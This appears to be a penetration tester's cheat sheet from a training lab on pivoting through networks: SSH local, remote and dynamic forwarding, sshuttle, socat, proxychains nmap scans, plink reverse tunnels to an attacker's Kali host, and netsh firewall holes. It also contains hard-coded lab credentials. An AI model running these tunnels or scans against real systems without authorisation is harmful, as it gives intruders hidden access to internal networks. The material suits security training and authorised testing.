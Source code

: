 # *Linux*
LHOST == listener aka tunnel start
RHOST == "Receiver" aka tunnel end
FHOST == TARGET we're trying to get to
## Local
***INBOUND SSH allowed OR a service can only be access as localhost 
OR INBOUND SSH allowed AND SUB-INTERNAL HOST access required FROM KALI***
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ---> SUB-INTERNAL(**FHOST**)
```shell
ssh -N -L LHOST:LPORT:RHOST:RPORT usern@RHOST


# EXAMPLE: Can access SUB-INTERNAL HOST FROM KALI NOW
# service    LPORT         LHOST
#  \/         \/            \/                    
smbclient -p 4455 -L //192.168.183.63/ -U hr_admin --password=Welcome1234
```
## Remote
***INBOUND SSH is FILTERED/CLOSED***
KALI**LHOST**) ==== WAN(**RHOST**) ---> INTERNAL(**FHOST**)
```shell
ssh -N -R 127.0.0.1:LPORT:FHOST:FPORT kali@KALI_IP
# service access via 127.0.0.1 LPORT 
```
***Need to Setup SSH service in Kali***
```shell
# 1 KALI
sudo systemctl start ssh
sudo ss -tulpn


# 2 WAN
#                   LPORT    FHOST    FPORT       LHOST    
#                    \/       \/       \/          \/
ssh -N -R 127.0.0.1:2345:10.4.232.215:5432 kali@192.168.%.%


# 3 KALI, check using ss -tulpn for a connection
#
# Access using the 127.0.0.1:2345
psql -h 127.0.0.1 -p 2345 -U postgres
```
## sshuttle (dynamic)
***Alternate to Dynamic Port Forward and PREFERRED if we have direct access to an SSH server, behind which is a more complex internal network as classic dynamic port forwarding might be difficult to manage***
***REQUIRES***
1. **root** on SSH client initiating connection, 
2. **python3** on the SSH server
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ---> SMB on SUB-INTERNAL(**FHOST**) 
```shell
# 1 on WAN, setup local port forward
#                            INTERNAL-with-ssh
#                                  \/
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22


# 2 in KALI , run routing to other SUB-INTERNAL addresses:
#                                 WAN           INTERNAL     SUB-INTERNAL
#                                  \/               \/             \/
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
#
# Access service. SMB as an example
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
## Dynamic
WAN(**LHOST**) ==== INTERNAL(**RHOST**) ----> NMAP on SUB-INTERNAL(**FHOST**)
```shell
# 1 On WAN
#                LPORT     username     RHOST
#                  \/         \/          \/
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215


# 2 In Kali, change proxychains config to ADD WANIP and port from above
# sudo mousepad /etc/proxychains4.conf &
#                 LPORT
#                   \/
# socks5 WANIP 9999
# nmap scan against the 172.16.232.217 FHOST
seq 4800 4900 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oG proxychains_nmap --append-output 172.16.232.217
cat proxychains_nmap | grep -e "^Host.*open"

# box64 via proxychains
proxychains box64 ./ssh_dynamic_client -i 172.16.232.217 -p 4872

#https://www.hackwhackandsmack.com/?p=1021
```
## Remote Dynamic
Kali(**LHOST**) ==== WAN(**RHOST**) ----> NMAP on SUB-INTERNAL(**FHOST**)
```shell
# 1 On WAN
#
ssh -N -R 9998 kali@192.168.#.#


# 2 In Kali, proxychains config to match port from above
#
# socks5 127.0.0.1 9998

# can reach hosts now so example showing nmap
seq 9000 9100 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n -T4 --min-parallelism 100 --min-rate 1 --oG proxychains_nmap_remote_dynamic --append-output 10.4.232.64
cat proxychains_nmap_remote_dynamic | grep -e "^Host.*open"

# box64 via proxychains
proxychains box64 ./ssh_remote_dynamic -i 10.4.232.64 -p 9062
```
# *Windows*
## ssh
***Same methodologies***
## Plink.exe
***If no ssh, can use this which is putty made ssh client***

Example Remote Port Forward to get RDP access
```shell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 KALI_IP
```
## netsh
***Requires** **ADMIN** and/or **UAC***
|| WAN ===== INTERNAL with database service
```shell
# 1 On WAN, 
# CREATE forwarder
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# CHECK forwarder was created
netstat -anp TCP | find "2222"
netsh interface portproxy show all

# POKE a Hole in the Windows Firewall
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow


# 2 In KALI check Host is accessible
#
sudo nmap -sS 192.168.50.64 -Pn -n -p2222
#
# Access service. SSH as example
ssh database_admin@192.168.50.64 -p2222


# CLEANUP firewall rule and delete the forwarder once finished
#
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

